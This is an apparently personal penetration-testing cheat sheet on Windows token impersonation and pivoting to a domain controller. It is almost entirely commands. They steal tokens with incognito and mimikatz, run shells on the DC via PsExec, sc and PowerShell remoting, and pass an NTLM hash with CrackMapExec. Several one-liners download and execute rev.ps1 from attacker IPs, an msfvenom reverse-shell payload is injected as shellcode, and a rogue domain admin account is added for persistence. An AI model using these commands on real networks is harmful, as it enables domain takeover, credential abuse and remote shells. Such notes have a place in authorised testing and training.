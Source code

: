 ```yaml
---
description: need elevated admin
---
```


# Impersonating token & pivot

{% embed url="https://juggernaut-sec.com/lateral-movement-token-impersonation/" %}

### incognito impersonate

```
.\incognito.exe list_tokens -u (find domain\admin delegation token)
.\incognito.exe execute -c "domain\admin" .\shell.exe

>> with domain admin shell, pivot to DC
```

{% embed url="https://labs.withsecure.com/publications/incognito-v2-0-released" %}

### mimikatz impersonate

```
.\mimikatz.exe " " " " "exit"
privilege::debug
token::list (to find any domain admin)
token::elevate /domainadmin (seek and impersonate any domain admin that it can find)
token::run /process:"C:\temp\shell.exe"

>> with domain admin shell, pivot to DC
```

### pivoting

{% hint style="info" %}
[Create domain admin account](../../general/privesc/windows/#create-user-for-persistency-as-admin-system) as a DC admin / admin on DC ser so that no need the actual DC admin creds for persistence,&#x20;

or change password `net user adminuser pass123! /domain`
{% endhint %}

#### smb (with dc user/admin creds)

{% code overflow="wrap" %}
```
dir \\DC01\c$ (to check if have access to dc)

PSexec.exe \\DC01 (-s) -c C:\temp\rev.exe -d -accepteula

```
{% endcode %}

#### sc pivot (smb) - DC admin

create service on the remote ser and start

query, stop, start, delete, and add system services

{% code overflow="wrap" %}
```
copy C:\temp\shell.exe \\DC01\C$\Windows\temp

sc \\DC01 create pivot binpath= "C:\Windows\temp\shell.exe"
sc \\DC01 start pivot
```
{% endcode %}

#### powershell - DC admin

```powershell
$dcs = NEW-PSSession -Computer SANDBOXDC
Invoke-Command -Session $dcs -ScriptBlock {ipconfig}
(validate we can exec cmd to DC remotely)

Copy-Item "C:\Users\Public\shell.exe" -Destination "C:\Users\Public\" -ToSession $dcs

*setup listener

$dcs = NEW-PSSession -Computer SANDBOXDC
Invoke-Command -Session $dcs -ScriptBlock {C:\Users\Public\shell.exe}
```

alt

{% code overflow="wrap" %}
```powershell
(normal to hang)
Invoke-Command -ComputerName dc.domain.local -ScriptBlock {hostname}
Invoke-Command -ComputerName dc.domain.local -ScriptBlock {iex(new-object net.webclient).downloadstring('http://172.16.1.30/rev.ps1')}

or download shell.exe and then exec
```
{% endcode %}

#### CME with local admin hash (from HKLM SAM SYS :LMHASH) to impersonate domain admin for accessing dc with rev.ps1

{% code overflow="wrap" %}
```
(-p pwd; look for TOKEN=# domainadmin token)
crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -M impersonate -o MODULE=list
```
{% endcode %}

{% code overflow="wrap" %}
```
(-p pwd; token# look for domainadmin)
crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -M impersonate -o MODULE=exec TOKEN=4 EXEC="powershell.exe -c Invoke-Command -ComputerName Juggernaut-DC.juggernaut.local -ScriptBlock {hostname}"

crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -M impersonate -o MODULE=exec TOKEN=4 EXEC="powershell.exe -c Invoke-Command -ComputerName Juggernaut-DC.juggernaut.local -ScriptBlock {iex(new-object net.webclient).downloadstring('http://172.16.1.30/rev.ps1')}"

(normal to hang)
```
{% endcode %}

DC Admin impersonation (not yet pivot)

{% code overflow="wrap" %}
```

crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -M impersonate -o MODULE=exec TOKEN=4 EXEC=whoami

crackmapexec smb 172.16.1.100 -u administrator -H 3542d79d5d17bc9d3014d4d56b5e3060 --local-auth -M impersonate -o MODULE=exec TOKEN=4 EXEC="powershell.exe -c iex(new-object net.webclient).downloadstring('http://172.16.1.30/rev.ps1')"
```
{% endcode %}

alt

{% code overflow="wrap" %}
```
msfvenom -p windows/shell/reverse_tcp LHOST=192.168.119.173 LPORT=80 -e x86/shikata_ga_nai -i 7 -f raw -o shell.bin

crackmapexec smb 10.0.5.1 -u Administrator -p P@ss123 --local-auth -M shellcode_inject -o PATH=/path/to/shell.bin

-H nthash
-d domain.local / .
```
{% endcode %}

#### Invoke-TokenManipulation.ps1 (not yet pivot)

{% code overflow="wrap" %}
```powershell
. .\Invoke-TokenManipulation.ps1
Invoke-TokenManipulation -Enumerate
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"

Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/rev.ps1');\"};"
```
{% endcode %}

{% code overflow="wrap" %}
```powershell

Invoke-TokenManipulation -CreateProcess "C:\shell.exe" -Username "nt authority\system"

Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/rev.ps1');\";" -Username "nt authority\system"

or download shell.exe and then exec
```
{% endcode %}

###
